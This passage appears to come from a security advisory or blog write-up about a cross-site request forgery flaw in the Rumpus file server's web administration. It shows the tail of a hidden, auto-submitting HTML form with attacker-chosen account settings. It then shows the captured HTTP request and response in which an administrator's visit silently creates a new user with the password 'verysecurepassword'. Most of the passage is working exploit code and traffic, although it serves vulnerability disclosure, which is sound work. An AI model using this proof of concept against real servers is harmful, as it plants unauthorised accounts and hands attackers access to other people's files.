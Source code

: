       <input type="hidden" name="EMailAddress" value="" />
      <input type="hidden" name="EMailPassword" value="" />
      <input type="hidden" name="PhoneNumber" value="" />
      <input type="hidden" name="Notes" value="" />
      <input type="hidden" name="Welcome" value="" />
      <input type="hidden" name="UploadCenter" value="NONE" />
      <input type="hidden" name="UploadNotice1" value="NONE" />
      <input type="hidden" name="UploadNotice2" value="NONE" />
      <input type="hidden" name="DownloadNotice" value="NONE" />
      <input type="hidden" name="AlternateAppearance" value="Default" />
      <input type="hidden" name="DiskSpace" value="0" />
      <input type="hidden" name="LimitSpaceEnabled" value="off" />
      <input type="hidden" name="LimitConValue" value="4" />
      <input type="hidden" name="LimitConEnabled" value="off" />
      <input type="hidden" name="LimitUploadRateValue" value="16" />
      <input type="hidden" name="LimitUploadRateEnabled" value="off" />
      <input type="hidden" name="LimitDownloadRateValue" value="16" />
      <input type="hidden" name="LimitDownloadRateEnabled" value="off" />
      <input type="hidden" name="SeeInvisibleFiles" value="off" />
      <input type="hidden" name="DeleteExpiredFiles" value="off" />
      <input type="hidden" name="AccountType" value="Permanent" />
      <input type="hidden" name="ExpDays" value="NA" />
      <input type="hidden" name="SaveUserAction" value="" />
    </form>
  </body>
</html>
{% endhighlight %}

When the administrative user account visits the page, the form will automatically submit the attacker assigned values to the server. 

The following code snippets show the requests and responses after an administrative user visits the page with the form above:

First creating a user using the image:

{% highlight html %}
GET /RAPR/TriggerServerFunction.html?CreateUserAccount;;csrf;;verysecurepassword;; HTTP/1.1
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: UserAccount=_UwtsA9IFxh91RR; SessionID=1143479735
{% endhighlight %}

{% highlight html %}
HTTP/1.1 200 OK
Server: Rumpus
Date: Wed, 03 Feb 2021 15:34:54 GMT
Content-type: text/html; charset=UTF-8
Content-length: 34
Connection: close
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

The user account has been created.
{% endhighlight %}
